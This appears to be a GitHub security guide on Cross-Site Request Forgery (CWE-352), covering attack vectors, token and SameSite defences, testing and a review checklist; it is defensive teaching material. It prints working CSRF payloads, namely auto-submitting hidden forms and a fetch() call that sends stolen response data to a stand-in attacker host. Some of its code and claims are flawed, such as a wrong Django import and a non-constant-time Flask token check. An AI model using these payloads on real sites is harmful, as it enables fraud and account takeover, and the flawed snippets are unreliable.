





# CWE-352: Cross-Site Request Forgery (CSRF)

**Rank:** #3 in CWE Top 25 (2025)  
**Severity:** High (CVSS 5.0 - 9.0+)  
**Status:** ⚠️ Active threat in production systems  
**Last Updated:** January 2026

---

## Table of Contents

- [Overview](#overview)
- [Understanding CSRF](#understanding-csrf)
- [Why CSRF Still Exists](#why-csrf-still-exists)
- [Attack Scenarios](#attack-scenarios)
- [Defense Mechanisms](#defense-mechanisms)
- [Implementation Guide](#implementation-guide)
- [Testing & Verification](#testing--verification)
- [Security Checklist](#security-checklist)
- [References](#references)

---

## Overview

**Cross-Site Request Forgery (CSRF)** is a security vulnerability where an attacker tricks an authenticated user into performing unintended actions on a web application.

### The Core Problem

```
Your browser automatically includes session cookies with every request.
The server can't distinguish between:
  ✓ Requests the user intentionally made
  ✗ Requests forged by an attacker
```

### Real-World Impact

| Scenario | Impact |
|----------|--------|
| Bank transfer | Unauthorized money transfer |
| Email change | Account takeover |
| Password reset | Complete account compromise |
| Admin promotion | Privilege escalation |
| Data deletion | Irreversible data loss |
| Worm propagation | Exponential compromise (Samy worm: 1M+ accounts) |

---

## Understanding CSRF

### How CSRF Works

#### Step 1: Attacker Creates Malicious Page

```html
<!-- attacker.com/steal-money.html -->
<form id="csrf-form" 
      action="https://bank.com/transfer" 
      method="POST" 
      style="display:none;">
  <input type="hidden" name="recipient" value="attacker@evil.com">
  <input type="hidden" name="amount" value="10000">
  <input type="hidden" name="account" value="checking">
</form>

<script>
  // Auto-submit when page loads
  document.getElementById('csrf-form').submit();
</script>
```

#### Step 2: Victim Visits Attacker's Page

While logged into their bank account, the victim opens attacker.com (perhaps via phishing link, social media, or compromised site).

#### Step 3: Browser Auto-Submits Request

The JavaScript executes and submits the hidden form:

```http
POST /transfer HTTP/1.1
Host: bank.com
Cookie: sessionID=victim_session_abc123
Content-Type: application/x-www-form-urlencoded

recipient=attacker@evil.com&amount=10000&account=checking
```

#### Step 4: Server Processes as Authenticated Request

The bank server receives the request and sees:
- ✅ Valid session cookie
- ✅ Authenticated user
- ✅ Proper HTTP method (POST)
- ❌ **But never verifies: Did the user actually authorize this transfer?**

```
Server: "User is authenticated, session is valid → Process transfer"
Result: $10,000 transferred to attacker
```

---

### Attack Vectors

#### Vector 1: Hidden Form Submission (POST)

```html
<!-- Silent, no user interaction needed -->
<form action="https://victim.com/admin/delete-user" 
      method="POST" 
      style="display:none;">
  <input name="user_id" value="42">
  <input name="confirm" value="yes">
</form>
<script>document.forms[0].submit();</script>
```

**Why it works:**
- POST requests don't appear in browser history
- User sees no indication a request was sent
- Attacker can hide the form off-screen or disguise the page

#### Vector 2: Image Tag (GET)

```html
<!-- Exploits GET-based state changes -->

```

**Why it works:**
- `` tags trigger HTTP requests automatically
- Browser includes cookies with the request
- No user interaction required
- Works even if JavaScript is disabled

#### Vector 3: XMLHttpRequest/Fetch

```javascript
// From attacker.com, while victim is logged into victim.com
fetch('https://victim.com/api/transfer', {
  method: 'POST',
  credentials: 'include',  // Send cookies with cross-origin request
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    recipient: 'attacker@evil.com',
    amount: 50000
  })
})
.then(response => response.json())
.then(data => {
  // Send response back to attacker
  fetch('https://attacker.com/log?data=' + btoa(JSON.stringify(data)));
});
```

**Why it works:**
- CORS misconfiguration may allow cross-origin requests
- `credentials: 'include'` sends cookies despite cross-origin
- Attacker can read response if CORS headers permit

#### Vector 4: Link Exploitation

```html
<!-- Innocent-looking link with malicious GET -->
<a href="https://admin.company.com/delete-user?id=42&confirm=yes">
  Click here to see latest news!
</a>

<!-- Or auto-redirect -->
<meta http-equiv="refresh" 
      content="0; url=https://victim.com/api/delete?id=42">
```

---

## Why CSRF Still Exists

### Reason 1: Confusion Between Authentication & Authorization

```php
// VULNERABLE CODE
session_start();

// Check: "Is there a valid session?"
if (!isset($_SESSION['user_id'])) {
    die("Not authenticated");
}

// ✓ Session exists
// ✗ But: Is THIS REQUEST authorized by the user?
// Server doesn't verify intent → CSRF vulnerability

process_payment($_POST['amount'], $_POST['recipient']);
```

**The Fix:** Verify not just authentication, but *intent*.

### Reason 2: Using GET for State Changes

```php
// VULNERABLE - GET modifies state
if (isset($_GET['delete_id'])) {
    User::delete($_GET['delete_id']);
}

// Attack: 
// or: <a href="/user/delete?delete_id=42">Click me</a>
```

**The Fix:** Use POST/PUT/DELETE for state-changing operations.

### Reason 3: Modern JavaScript Frameworks

```javascript
// Modern SPA frameworks make it easy to forget CSRF protection
fetch('/api/transfer', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({ amount: 1000 })
  // ❌ No CSRF token included
  // ❌ Forgot to disable credentials: 'include'
})
```

### Reason 4: API Security Confusion

```
Myth: "My API returns JSON, so it's safe"
Truth: CSRF works with JSON too if credentials are included

Myth: "HTTPS protects against CSRF"
Truth: Encryption doesn't prevent request forgery

Myth: "Checking Referer header is sufficient"
Truth: Can be disabled by users, spoofed via XSS
```

---

## Attack Scenarios

### Scenario 1: Financial Fraud

```
1. Attacker compromises ad network
2. Injects malicious ad on news website
3. User visits news.com while logged into bank.com
4. Ad executes: 
5. Bank processes legitimate session → $5000 transferred
6. User discovers fraud days later
```

### Scenario 2: Account Takeover

```
1. Attacker sends phishing email with link
2. Link points to attacker.com with hidden form
3. Form changes user's email, then password
4. User can no longer log in
5. Attacker now owns account
```

### Scenario 3: Malware Distribution (Samy Worm Pattern)

```
Stage 1: CSRF Injects XSS
  - Attacker sends CSRF request to inject JavaScript into victim's profile
  - JavaScript stored in victim.com database

Stage 2: Exponential Propagation
  - Friend visits victim's profile
  - XSS payload executes in friend's context
  - Friend's profile is also modified (CSRF + XSS)
  - Worm spreads to friend's friends...

Result: Exponential growth
  Hour 0: 1 infected (attacker)
  Hour 1: 10 infected
  Hour 2: 100 infected
  Hour 3: 1,000 infected
  Hour 4: 10,000+ infected
  ...
  MySpace Samy worm: 1,000,000+ accounts in 24 hours
```

---

## Defense Mechanisms

### Defense 1: CSRF Tokens (Recommended)

CSRF tokens are the primary defense. They verify that a request came from your application, not an external attacker.

#### How It Works

```
1. Server generates unique token for each form
2. Token included in form as hidden input
3. Attacker doesn't know token value (can't read due to SOP)
4. Server validates token before processing
5. Request without valid token is rejected
```

#### Implementation

**PHP:**

```php
<?php
session_start();

// 1. GENERATE TOKEN (once per session)
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
    // bin2hex(): Convert 32 bytes to 64-character hex string
    // random_bytes(): Cryptographically secure RNG
    // Result: 256-bit token (exceeds 128-bit minimum)
}

// 2. INCLUDE IN FORM
echo '<form method="POST" action="/transfer">';
echo '<input type="hidden" name="csrf_token" value="' . 
     htmlspecialchars($_SESSION['csrf_token']) . '">';
echo '<input type="text" name="recipient" required>';
echo '<input type="number" name="amount" required>';
echo '<button type="submit">Transfer</button>';
echo '</form>';

// 3. VALIDATE BEFORE PROCESSING
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // CRITICAL: Use hash_equals() for constant-time comparison
    // Prevents timing attacks
    if (!isset($_POST['csrf_token']) || 
        !hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        http_response_code(403);
        exit('CSRF token validation failed');
    }
    
    // Token is valid, safe to process
    process_transfer($_POST['recipient'], $_POST['amount']);
}
?>
```

**Python/Flask:**

```python
from flask import Flask, request, session, render_template_string
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_hex(32)

# 1. GENERATE TOKEN
@app.before_request
def generate_csrf_token():
    if 'csrf_token' not in session:
        session['csrf_token'] = secrets.token_hex(32)

# 2. INCLUDE IN FORM (template)
form_html = '''
<form method="POST" action="/transfer">
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
    <input type="text" name="recipient" required>
    <input type="number" name="amount" required>
    <button type="submit">Transfer</button>
</form>
'''

@app.route('/transfer_page', methods=['GET'])
def transfer_page():
    return render_template_string(form_html, csrf_token=session['csrf_token'])

# 3. VALIDATE BEFORE PROCESSING
@app.route('/transfer', methods=['POST'])
def transfer():
    # Validate token
    if request.form.get('csrf_token') != session.get('csrf_token'):
        return 'CSRF token invalid', 403
    
    # Process transfer
    recipient = request.form.get('recipient')
    amount = request.form.get('amount')
    process_transfer(recipient, amount)
    
    return 'Transfer successful', 200
```

**Django (Built-in):**

```python
# Django handles CSRF automatically

from django.http import HttpResponse
from django.views.decorators.http import require_http_methods
from django.middleware.csrf import csrf_protect
from django.template import Template, Context

# 1. GENERATE & INCLUDE (automatic via  tag)
@require_http_methods(["GET", "POST"])
def transfer(request):
    if request.method == 'GET':
        # Template automatically includes CSRF token
        return render(request, 'transfer.html')
    
    elif request.method == 'POST':
        # 2. VALIDATE (automatic via csrf_protect decorator)
        recipient = request.POST.get('recipient')
        amount = request.POST.get('amount')
        
        # If CSRF token is invalid, Django rejects automatically
        process_transfer(recipient, amount)
        return HttpResponse('Transfer successful')

# transfer.html
"""
<form method="post">
    
    <input type="text" name="recipient" required>
    <input type="number" name="amount" required>
    <button type="submit">Transfer</button>
</form>
"""
```

#### Why hash_equals() is Critical

```php
// ❌ VULNERABLE: String comparison with ==
if ($_POST['token'] == $_SESSION['token']) {
    process_request();
}

// Vulnerability: Timing Attack
// "abc123def456" == "abc123xyz789"
//  Comparison exits at 7th character
// Takes different time based on where match fails
// Attacker measures response times → deduces token bits
// Risk: Token can be brute-forced through timing analysis

// ✅ SECURE: hash_equals() constant-time comparison
if (hash_equals($_SESSION['token'], $_POST['token'])) {
    process_request();
}

// Why it works:
// - Compares ALL bytes regardless of content
// - Time taken is independent of token value
// - Timing attack impossible
// - Attacker cannot deduce token through timing side-channel
```

---

### Defense 2: SameSite Cookie Attribute

SameSite tells the browser when to include cookies with requests.

#### Implementation

```php
// PHP 7.3+
session_set_cookie_params([
    'httponly' => true,      // Block JavaScript access (prevents XSS theft)
    'secure' => true,        // HTTPS only
    'samesite' => 'Lax',     // Key setting for CSRF protection
    'path' => '/',
    'domain' => '.example.com'
]);
session_start();

// Or manual header
header('Set-Cookie: sessionID=' . $token . 
       '; SameSite=Lax; HttpOnly; Secure; Path=/; Domain=.example.com');
```

**JavaScript:**

```javascript
// Modern browsers support SameSite automatically
// No code needed on client side
// Browser enforces at network level
```

#### SameSite Values Explained

| Value | Behavior | Use Case |
|-------|----------|----------|
| **Strict** | Cookie NOT sent with any cross-origin request | Maximum security, breaks some features |
| **Lax** | Cookie sent for top-level navigation (GET), blocked for forms (POST) | Best default for most apps |
| **None** | Cookie always sent (requires `Secure` flag) | Legitimate cross-origin use (federated login, CDN) |

**Which to Use?**

```
Default: SameSite=Lax
Sensitive operations: SameSite=Strict
Cross-origin required: SameSite=None; Secure
```

#### Browser Support

```
Chrome:    v80+ (Feb 2020) - Default Lax
Firefox:   v95+ (Nov 2021) - Default Lax
Safari:    v13.1+ (Mar 2020)
Edge:      v80+ (Feb 2020)
IE:        No support (ignored)

Coverage: ~92% of users benefit from SameSite
```

---

### Defense 3: Origin Header Validation

```php
// Validate that request came from your domain
if ($_SERVER['REQUEST_METHOD'] !== 'GET') {
    $origin = $_SERVER['HTTP_ORIGIN'] ?? null;
    $allowed_origins = [
        'https://example.com',
        'https://www.example.com',
        'https://api.example.com'
    ];
    
    if (!in_array($origin, $allowed_origins)) {
        http_response_code(403);
        exit('Origin validation failed');
    }
}
```

**Limitations:**
- XSS can spoof Origin header
- Older browsers may not send it
- Use as secondary defense, not primary

---

### Defense 4: Never Use GET for State Changes

```php
// ❌ VULNERABLE
if (isset($_GET['delete_id'])) {
    User::delete($_GET['delete_id']);
}

// ✅ SECURE
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['delete_id'])) {
    User::delete($_POST['delete_id']);
}
```

**Why:**
- GET appears in:
  - Browser history
  - Server logs
  - Referer headers
  - Proxy caches
- GET is used by prefetchers, scrapers, bots
- GET changes are trivial to exploit with ``, links, prefetch

---

## Implementation Guide

### Step 1: Identify Vulnerable Operations

```
State-changing operations (need protection):
  ✓ POST /transfer
  ✓ PUT /user/update
  ✓ DELETE /item/123
  ✓ PATCH /settings

Safe operations (don't need CSRF token):
  ✗ GET /data
  ✗ HEAD /resource
  ✗ OPTIONS /endpoint
```

### Step 2: Choose Your Defense Strategy

```
Decision Tree:

Need backward compatibility?
  → Yes: Use CSRF tokens + SameSite
  → No: Use SameSite=Lax alone (modern browsers)

Stateless architecture (load-balanced)?
  → Yes: Use double-submit tokens
  → No: Use session-based tokens

API or HTML forms?
  → HTML forms: Token in hidden input
  → API: Token in custom header (X-CSRF-Token)
```

### Step 3: Generate Secure Tokens

```php
// ✅ CORRECT: Cryptographically secure
$token = bin2hex(random_bytes(32));
// 256-bit token, hex-encoded = 64 characters

// ❌ WRONG: Predictable
$token = md5(time());           // Time-based, predictable
$token = substr(uniqid(), 0, 8); // Insufficient entropy
$token = hash('sha1', $user_id); // Deterministic
```

### Step 4: Validate with hash_equals()

```php
// ✅ CORRECT: Constant-time
if (hash_equals($_SESSION['token'], $_POST['token'])) {
    // Valid
}

// ❌ WRONG: Vulnerable to timing attack
if ($_POST['token'] === $_SESSION['token']) {
    // Vulnerable
}

if ($_POST['token'] == $_SESSION['token']) {
    // Very vulnerable
}
```

### Step 5: Set Cookie Flags Correctly

```php
session_set_cookie_params([
    'httponly' => true,       // ✓ JavaScript can't access
    'secure' => true,         // ✓ HTTPS only
    'samesite' => 'Lax',      // ✓ Block cross-origin POST
    'path' => '/',            // ✓ Entire domain
]);
```

### Step 6: Prevent XSS (Critical!)

```php
// CSRF defenses fail if XSS is present
// Attacker can: read token, forge request, bypass CSRF

// Prevent XSS:
// 1. Input validation (whitelist allowed inputs)
// 2. Output encoding (escape before display)
// 3. Content Security Policy (CSP headers)
// 4. Use templating engines (auto-escape by default)

// Example:
echo htmlspecialchars($user_input); // Escape for HTML
echo htmlspecialchars($var, ENT_QUOTES, 'UTF-8'); // Escape for attributes
```

---

## Visual Attack & Defense Flow



### Flow Explanation

**Red (Vulnerable Path):**
- Attacker succeeds when server only checks session validity
- No CSRF token verification
- No SameSite protection
- Unintended action executes

**Green (Protected Paths):**
- CSRF token missing/invalid → Rejected (403)
- SameSite blocks cookie → Request fails
- Defense-in-depth prevents exploitation

**Yellow (Decision Points):**
- Server validation determines success/failure
- Multiple layers of defense

---

## Detailed Attack Flow Diagram



---

## Defense Implementation Decision Tree



---

## CSRF Vulnerability Testing Flowchart



---

## Attack Vector Decision Matrix



---

## Testing & Verification

### Manual Testing

**Test 1: Missing Token**

```bash
# Try POST without CSRF token
curl -X POST \
  -H "Cookie: sessionID=valid_session" \
  -d "amount=1000&recipient=attacker@evil.com" \
  https://target.com/api/transfer

# Expected: 403 Forbidden
# If: 200 OK → VULNERABLE
```

**Test 2: Invalid Token**

```bash
# Try with wrong token
curl -X POST \
  -H "Cookie: sessionID=valid_session" \
  -d "csrf_token=invalid123&amount=1000" \
  https://target.com/api/transfer

# Expected: 403 Forbidden
# If: 200 OK → VULNERABLE
```

**Test 3: GET-Based State Change**

```bash
# Try GET for state-changing operation
curl "https://target.com/admin/delete-user?id=42"

# Expected: 405 Method Not Allowed or 400 Bad Request
# If: 200 OK → VULNERABLE
```

**Test 4: Cross-Origin Form Submission**

```html
<!-- On attacker.com -->
<form action="https://target.com/api/transfer" method="POST">
  <input name="amount" value="1000">
  <input name="recipient" value="attacker@evil.com">
</form>
<script>document.forms[0].submit();</script>

<!-- Expected: Request blocked or rejected
     If: Request succeeds → Check SameSite & CSRF tokens
```

### Automated Testing

**Using OWASP ZAP:**

```bash
zaproxy -cmd \
  -quickurl https://target.com \
  -quickout csrf_report.html
```

**Using Burp Suite:**

1. Enable "Scan for CSRF vulnerabilities" in scanner settings
2. Run active scan
3. Review findings for "CSRF" vulnerabilities

**Using Semgrep:**

```bash
semgrep --config=p/cwe-top-25 /app/src
# Detects missing CSRF tokens, unsafe comparisons, etc.
```

**Custom Python Test:**

```python
import requests
from requests.cookies import RequestsCookieJar

def test_csrf_vulnerability(url, payload):
    """Test if endpoint is CSRF-vulnerable"""
    
    session = requests.Session()
    
    # 1. Authenticate (simulate valid session)
    session.post('https://target.com/login', 
                 data={'username': 'testuser', 'password': 'testpass'})
    
    # 2. Attempt request WITHOUT CSRF token
    response = session.post(url, data=payload)
    
    if response.status_code == 200:
        print(f"[VULNERABLE] {url} accepted request without CSRF token")
        return True
    elif response.status_code == 403:
        print(f"[PROTECTED] {url} rejected request (CSRF validation)")
        return False
    else:
        print(f"[UNKNOWN] {url} returned status {response.status_code}")
        return None

# Test endpoints
endpoints = [
    ('https://target.com/api/transfer', {'amount': 100, 'recipient': 'attacker'}),
    ('https://target.com/api/settings', {'email': 'attacker@evil.com'}),
    ('https://target.com/api/password', {'new_password': 'hacked'}),
]

for url, payload in endpoints:
    test_csrf_vulnerability(url, payload)
```

---

## Security Checklist

Use this checklist during code review and before deployment:

```
CSRF Prevention Checklist
========================

Token Generation
  □ CSRF tokens generated using cryptographically secure RNG
  □ Token length ≥ 128 bits (preferably 256 bits)
  □ Tokens are unique and unpredictable
  □ One token per form/request (not reused across sessions)

Token Validation
  □ Every POST/PUT/DELETE request validates CSRF token
  □ Token comparison uses hash_equals() (constant-time)
  □ Invalid token results in HTTP 403 response
  □ Missing token results in HTTP 403 response

Session Management
  □ Session cookies have HttpOnly flag set
  □ Session cookies have Secure flag set (HTTPS only)
  □ Session cookies have SameSite=Lax or SameSite=Strict
  □ Session timeout is configured (30 min inactivity recommended)
  □ Session invalidates on logout

HTTP Methods
  □ GET requests never modify state
  □ State changes use POST, PUT, DELETE only
  □ Referer header checked for dangerous operations
  □ Origin header validated for POST requests

XSS Prevention (Critical for CSRF Defense)
  □ All user input validated (whitelist approach)
  □ All output HTML-encoded
  □ All output attribute-encoded (quotes, etc.)
  □ Content Security Policy (CSP) headers set
  □ No inline JavaScript (external scripts only)

API Security
  □ CSRF tokens included in API requests
  □ Or: CORS properly configured (not *) + SameSite
  □ Custom headers used for token transmission
  □ Credentials: 'include' only when necessary

Testing
  □ Manual CSRF testing completed
  □ Automated security scan run (ZAP, Burp, etc.)
  □ Code review for CSRF vulnerabilities
  □ Penetration testing by security professional
```

---

## References

### Official Documentation
- [MITRE CWE-352](https://cwe.mitre.org/data/definitions/352.html)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [OWASP Testing Guide - CSRF](https://owasp.org/www-project-web-security-testing-guide/)

### Standards & Specifications
- [RFC 6265: HTTP State Management (Cookies)](https://tools.ietf.org/html/rfc6265)
- [RFC 6265bis: SameSite Cookie Attribute](https://tools.ietf.org/html/draft-west-cookie-same-site)
- [W3C CORS Specification](https://fetch.spec.whatwg.org/#http-cors-protocol)

### Framework Documentation
- [Django CSRF Protection](https://docs.djangoproject.com/en/stable/ref/csrf/)
- [Laravel CSRF Protection](https://laravel.com/docs/csrf)
- [Rails CSRF Protection](https://guides.rubyonrails.org/security.html#csrf-countermeasures)
- [Spring Security CSRF](https://spring.io/guides/gs/securing-web/)

### Security Research
- **Felten & Zeller (2008):** "Cross-Site Request Forgeries: Exploitation and Prevention"
- **Jackson & Barth (2008):** "ForceHTTPS: Protecting High-Security Web Sites from Network Attacks"
- **Samy Worm (2005):** First major CSRF+XSS attack on MySpace (1M+ accounts)

### CVE Examples
- **CVE-2004-1703:** Add user accounts via CSRF
- **CVE-2005-1947:** Delete user data via CSRF
- **CVE-2009-3520:** Modify admin password via CSRF
- **CVE-2005-3952:** Samy Worm (CSRF + XSS on MySpace)

---

## Contributing

Found a CSRF vulnerability? Have suggestions for this guide?

1. Verify the vulnerability
2. Test mitigation strategies
3. Document findings with:
   - Target URL/endpoint
   - Attack vector
   - Impact assessment
   - Proof of concept (if possible)
4. Responsible disclosure

---

## License

This documentation is provided for educational and security research purposes.

---

## Summary

| Aspect | Details |
|--------|---------|
| **What** | Server fails to verify request intent; trusts session alone |
| **Impact** | Unauthorized transfers, account takeover, data theft |
| **Root Cause** | Confusing authentication with authorization |
| **Primary Defense** | CSRF tokens (256-bit, hash_equals validation) |
| **Secondary Defense** | SameSite=Lax cookies + Origin validation |
| **Tertiary Defense** | No GET state changes + XSS prevention |
| **Complexity** | Low to exploit, easy to defend |
| **Status** | Entirely preventable with proper implementation |

---

**Last Updated:** January 2026  
**CWE Chronicles Contributor:** Security Research Team
